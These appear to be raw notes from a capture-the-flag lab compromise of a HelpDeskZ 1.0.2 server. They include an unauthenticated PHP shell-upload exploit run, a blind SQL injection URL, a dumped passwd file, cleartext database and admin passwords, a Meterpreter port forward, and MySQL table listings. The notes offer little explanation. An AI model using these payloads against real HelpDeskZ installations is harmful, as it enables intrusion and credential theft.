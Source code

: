 Ubuntu 16.04.05 LTS

Apache 2.4.18
Running HelpDeskZ (/support/)

python exploit.py http://10.10.10.121/support/uploads/tickets/ evil.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/a46ebaa26535ab7b599d9aa22b1f4c60.php

user.txt: bb8a7b36bdce0c61ccebaa173ef946af

helpme@helpme.com / 5d3c93182bb20f07b994a7f617e99cff

godhelpmeplz

passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
help:x:1000:1000:help,,,:/home/help:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
Debian-exim:x:110:118::/var/spool/exim4:/bin/false

http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=10&param[]=attachment&param[]=5&param[]=12%20or%201=1%20and%20ascii(substr((SeLeCt%20table_name%20from%20information_schema.columns%20where%20table_name%20like%20%27%staff%27%20%20limit%200,1),1,1))%20=%20%2047%20--%20-


run as group:
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd
/usr/bin/bsd-write
/usr/bin/wall
/usr/bin/ssh-agent
/usr/bin/mlocate
/usr/bin/chage
/usr/bin/crontab
/usr/bin/expiry
/usr/bin/screen

cat config.php
<?php
	$config['Database']['dbname'] = 'support';
	$config['Database']['tableprefix'] = '';
	$config['Database']['servername'] = 'localhost';
	$config['Database']['username'] = 'root';
	$config['Database']['password'] = 'helpme';
	$config['Database']['type'] = 'mysqli';
	?>

portfwd add -l 3306 -p 3306 -r 127.0.0.1

Database
information_schema
mysql
performance_schema
support
sys

mysql:
columns_priv
db
engine_cost
event
func
general_log
gtid_executed
help_category
help_keyword
help_relation
help_topic
innodb_index_stats
innodb_table_stats
ndb_binlog_index
plugin
proc
procs_priv
proxies_priv
server_cost
servers
slave_master_info
slave_relay_log_info
slave_worker_info
slow_log
tables_priv
time_zone
time_zone_leap_second
time_zone_name
time_zone_transition
time_zone_transition_type
user

sys:
host_summary
host_summary_by_file_io
host_summary_by_file_io_type
host_summary_by_stages
host_summary_by_statement_latency
host_summary_by_statement_type
innodb_buffer_stats_by_schema
innodb_buffer_stats_by_table
innodb_lock_waits
io_by_thread_by_latency
io_global_by_file_by_bytes
io_global_by_file_by_latency
io_global_by_wait_by_bytes
io_global_by_wait_by_latency
latest_file_io
memory_by_host_by_current_bytes
memory_by_thread_by_current_bytes
memory_by_user_by_current_bytes
memory_global_by_current_bytes
memory_global_total
metrics
processlist
ps_check_lost_instrumentation
schema_auto_increment_columns
schema_index_statistics
schema_object_overview
schema_redundant_indexes
schema_table_lock_waits
schema_table_statistics
schema_table_statistics_with_buffer
schema_tables_with_full_table_scans
schema_unused_indexes
session
session_ssl_status
statement_analysis
statements_with_errors_or_warnings
statements_with_full_table_scans
statements_with_runtimes_in_95th_percentile
statements_with_sorting
statements_with_temp_tables
sys_config
user_summary
user_summary_by_file_io
user_summary_by_file_io_type
user_summary_by_stages
user_summary_by_statement_latency
user_summary_by_statement_type
version
wait_classes_global_by_avg_latency
wait_classes_global_by_latency
waits_by_host_by_latency
waits_by_user_by_latency
waits_global_by_latency
x$host_summary
x$host_summary_by_file_io
x$host_summary_by_file_io_type
x$host_summary_by_stages
x$host_summary_by_statement_latency
x$host_summary_by_statement_type
x$innodb_buffer_stats_by_schema
x$innodb_buffer_stats_by_table
x$innodb_lock_waits
x$io_by_thread_by_latency
x$io_global_by_file_by_bytes
x$io_global_by_file_by_latency
x$io_global_by_wait_by_bytes
x$io_global_by_wait_by_latency
x$latest_file_io
x$memory_by_host_by_current_bytes
x$memory_by_thread_by_current_bytes
x$memory_by_user_by_current_bytes
x$memory_global_by_current_bytes
x$memory_global_total
x$processlist
x$ps_digest_95th_percentile_by_avg_us
x$ps_digest_avg_latency_distribution
x$ps_schema_table_statistics_io
x$schema_flattened_keys
x$schema_index_statistics
x$schema_table_lock_waits
x$schema_table_statistics
x$schema_table_statistics_with_buffer
x$schema_tables_with_full_table_scans
x$session
x$statement_analysis
x$statements_with_errors_or_warnings
x$statements_with_full_table_scans
x$statements_with_runtimes_in_95th_percentile
x$statements_with_sorting
x$statements_with_temp_tables
x$user_summary
x$user_summary_by_file_io
x$user_summary_by_file_io_type
x$user_summary_by_stages
x$user_summary_by_statement_latency
x$user_summary_by_statement_type
x$wait_classes_global_by_avg_latency
x$wait_classes_global_by_latency
x$waits_by_host_by_latency
x$waits_by_user_by_latency
x$waits_global_by_latency

admin / support@mysite.com / Welcome1
rOOTmEoRdIE
RootMeOrDie